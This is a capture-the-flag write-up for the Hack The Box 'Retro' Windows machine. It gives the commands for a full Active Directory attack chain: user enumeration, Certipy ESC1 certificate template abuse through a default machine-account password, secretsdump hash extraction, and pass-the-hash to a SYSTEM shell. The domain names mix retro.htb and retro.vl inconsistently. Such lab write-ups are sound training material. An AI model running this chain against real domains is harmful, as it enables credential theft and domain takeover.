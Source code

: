 # 🧠 Hack The Box - Retro

**Difficulty:** Medium  
**IP Address:** 10.129.234.44  
**Date Completed:** 2025-06-25  

## 🧭 Overview
Retro was an ADCS-themed Windows box focused on certificate abuse for privilege escalation. While the core exploitation path was standard, the real challenge came from getting tooling (especially Certipy) to work correctly due to domain resolution and legacy configuration quirks.

## 🔎 Enumeration
### Nmap
```bash
nmap -p- -T4 -v 10.129.234.44 --min-rate 10000 -oA nmap/full
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,3389 -sC -sV -oA nmap/scripts 10.129.234.44
```
- Standard Windows AD ports were open.
- Web server hosted static site.

### Web Enum
- Nothing dynamic or juicy from the website.

## 🪪 Kerberos & Users
```bash
# Using kerbrute to enumerate usernames
kerbrute userenum --dc 10.129.234.44 -d retro.htb users.txt
```
- Found user: `trainee`

```bash
# AS-REP roasting test
impacket-GetNPUsers retro.htb/ -dc-ip 10.129.234.44 -usersfile users.txt -format hashcat
```
- `trainee` required pre-auth.

## 🏛️ LDAP & BloodHound
```bash
# Enumerate LDAP as 'trainee'
python3 ldapdomaindump.py -u trainee -p trainee -d retro.htb -ip 10.129.234.44
```
- Discovered computer account: `banking$`
- Password policy showed computers can authenticate with their default passwords.

## 🔐 Certipy Enumeration
Initial attempts with Certipy v5.x failed due to RPC and DNS errors.

```bash
# Critical fix: /etc/hosts and krb5.conf must reflect internal domain `retro.vl`
echo "10.129.234.44 dc.retro.vl" | sudo tee -a /etc/hosts
```
```ini
# /etc/krb5.conf
[libdefaults]
	default_realm = RETRO.VL

dns_lookup_realm = false

dns_lookup_kdc = false

[realms]
	RETRO.VL = {
		kdc = dc.retro.vl
		admin_server = dc.retro.vl
	}
```

```bash
# Certipy find
certipy find -u trainee@retro.vl -p trainee -vulnerable -stdout
```
- `RetroClients` template vulnerable to ESC1.
- `banking$` had enroll rights.

## 🪪 Certificate Request & Privilege Escalation
```bash
certipy req -u 'banking$@dc.retro.htb' -p 'Password123' \
  -ca 'retro-DC-CA' -target 'retro.htb' -template 'RetroClients' \
  -upn 'administrator@retro.htb' -dns 'retro.htb' -key-size 4096
```
- Certificate saved to: `administrator_retro.pfx`

```bash
# Get TGT from certificate
certipy auth -pfx administrator_retro.pfx -domain retro.htb
```

```bash
# Dump hashes
secretsdump.py -k -no-pass retro.htb/administrator@10.129.234.44
```
- Extracted NTLM hash for `administrator`.

## 🪟 Shell Access
```bash
impacket-wmiexec administrator@10.129.234.44 -hashes :<NTLM_HASH>
```
- SYSTEM shell achieved.

## 🎓 Lessons Learned
- Certipy 5.x requires precise DNS/Kerberos setup. Legacy boxes may need `/etc/hosts` and `krb5.conf` tweaks.
- Default machine account passwords can offer privilege escalation via ESC1.
- Enum first: no cert abuse without valid UPN and template path.

---
✅ **Box complete**

